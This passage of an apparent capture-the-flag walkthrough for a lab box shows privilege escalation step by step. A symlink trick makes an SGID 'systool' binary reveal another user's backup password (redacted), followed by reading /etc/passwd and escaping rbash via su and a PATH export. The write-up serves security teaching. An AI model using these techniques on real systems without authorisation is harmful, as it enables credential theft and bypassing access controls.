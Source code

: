 ```
backupmgr@tryharder:/var/backups$ ls -lah
[...]
-rwxr-x---  1 jeff pwman    43 May 11  2020 jeff.bak
```

Since `systool` is running with SGID (or runs as `pwman`), it can read files that `pwman` can read, like `jeff.bak`.

To do so, the `message.txt` can be changed to a symbolic link to `jeff.bak`.

> Note: the `message.txt` have to be deleted first.

```
backupmgr@tryharder:/opt/systools$ rm message.txt 
backupmgr@tryharder:/opt/systools$ ln -s /var/backups/jeff.bak message.txt
backupmgr@tryharder:/opt/systools$ ls -lah
[...]
lrwxrwxrwx 1 backupmgr backupmgr   21 Jul 19 07:08 message.txt -> /var/backups/jeff.bak
-rwxr-sr-x 1 jeff      pwman      17K May 24  2020 systool
```

Now, we should able to read `jeff.bak` file with `systool`.

```
backupmgr@tryharder:/opt/systools$ ./systool 
Welcome to Jeffs System Administration tool.
This is still a very beta version and some things are not implemented yet.
Please Select an option from below.
1 ) View process information.
2 ) Restore your password.
3 ) Exit 
Chose your option: 2

Your Password is: [Redacted]
```

Armed with this information, we can now login to `jeff` user.

In the `/etc/passwd`, it shows that `jeff` use is using `rbash`, or restricted bash shell.
```
backupmgr@tryharder:/opt/systools$ cat /etc/passwd
[...]
jeff:x:1000:1000:Jeff:/home/jeff:/bin/rbash
```

To escape `rbash`, we can:

1. Use the `-l` and `-c` option with `su`, and export the `PATH` variable with `/bin:/usr/bin`:
```
backupmgr@tryharder:/opt/systools$ su jeff -lc "/bin/bash"
Password: 
[...]
The command could not be located because '/usr/bin:/bin' is not included in the PATH environment variable.
lesspipe: command not found
Command 'dircolors' is available in '/usr/bin/dircolors'
The command could not be located because '/usr/bin' is not included in the PATH environment variable.
dircolors: command not found
jeff@tryharder:~$ echo $PATH
/home/jeff/.bin
jeff@tryharder:~$ export PATH=$PATH:/bin:/usr/bin
jeff@tryharder:~$ whoami
jeff
```
